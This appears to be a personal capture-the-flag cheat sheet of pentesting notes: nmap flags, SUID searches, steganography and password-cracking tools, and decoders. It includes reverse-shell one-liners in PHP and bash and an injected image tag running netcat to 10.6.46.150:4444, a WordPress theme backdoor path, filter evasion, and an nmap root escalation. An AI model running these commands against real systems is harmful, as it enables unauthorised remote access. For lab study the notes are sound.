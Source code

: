 *
-sC flag in nmap runs a set of default NSE scripts, some of them are intrusive so this should not be run against real machines.

*
-A flag means agressive. It consists of 
-A: Enable OS detection, version detection, script scanning, and traceroute

*
nmap run without sudo does TCP scan (-sT) and with sudo SYN scan (-sS). SYYN scan is better as it is a stealth one - sends RST flag to server so it avoids getting detected by firewall (for example). On the other side, it can destabilize weak applications on a server .

*
To check if there is a nse script for X service:
`grep "X" /usr/share/nmap/scripts/script.db`

*
Getting rev shell when there is a chance to write a comment
`<img src=http://10.6.46.150/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.6.46.150 '$IFS'4444')>`

 
*
SPAWNING INTTERACTING SHELL WITH PYTHON
`python3 -c 'import pty;pty.spawn("/bin/bash")'`   

*
Listing all binaries with suid permission
`find / -perm -u=s -type f 2>/dev/null`

*
link to access a modified WP theme - `404.php` (to get rev shell)
`http://10.10.142.159/wp-content/themes/twentyfifteen/404.php`

*
if there is a filtering, it is needed to add command in backslashes e.g `l\s -la`

*
PHP REV SHELL ONE LINER
`php -r '$sock=fsockopen("10.6.46.150",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

*
BASH REV SHELL ONELINER
`bash -i &>/dev/tcp/10.6.46.150/4444 <&1`

*
There are many different converters to john format
`bin2john / zip2john / gpg2john`

*
7z is a file to extract

*
binwalk -->> tool to check of there is a zip file inside .png image
`binwalk -e file`

*
NMAP SHELL
Old version of nmap can be used to escalate to root
`nmap --version` to check version
`nmap --interactive` to enter interacttive mode
and then `!sh` to get root

*
BRAINFUCK decoder
`https://www.splitbrain.org/_static/ook/`

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++++++++++.------------.+++++.>+++++++++++++++++++++++.<<++++++++++++++++++.>>-------------------.---------.++++++++++++++.++++++++++++.<++++++++++++++++++.+++++++++.<+++.+.>----.>++++.

*
XOR DECODER
`http://xor.pw/#`

*
SPEECH TO TEXT CONVERTER

`https://speech-to-text-demo.ng.bluemix.net/`






